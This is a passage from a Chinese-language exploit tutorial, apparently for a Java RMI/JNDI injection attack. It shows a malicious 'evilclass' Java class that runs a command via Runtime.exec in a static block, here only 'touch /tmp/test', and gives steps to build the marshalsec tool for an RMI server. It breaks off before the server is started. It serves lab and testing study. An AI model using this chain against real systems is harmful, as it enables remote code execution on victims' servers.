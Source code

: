 **1）编译恶意类代码**

创建文件名为`evilclass.java`的文件

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"touch", "/tmp/test"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

使用`javac`编译

```
javac evilclass.java
```

**2）下载`marshalsec`工具**

marshalsec 工具用于开启 RMI 服务器

下载地址：

https://github.com/mbechler/marshalsec

```
git clone https://github.com/mbechler/marshalsec.git
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUa9FuZoicVyh5icL94WibHa6FMWVko7NvAyK2JAGPxicmUibhLuHWazbZffgQ/640?wx_fmt=jpeg)

**3）安装 maven**

```
apt-get install maven
```

**4）使用 maven 编译 marshalsec 成 jar 包**

```
mvn clean package -DskipTests
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaN1icw7Nxq4T7Rq2b9zYxw2pKUaQbfelgHAOIZGt3AXC0vhY9E5Awzibw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaP6ccqDgL5NXSAyD2xSaf1k5otlnNNNTt9EYPGddHflMeuRgic2XVic1w/640?wx_fmt=jpeg)

**5）搭建启动 RMI 服务**
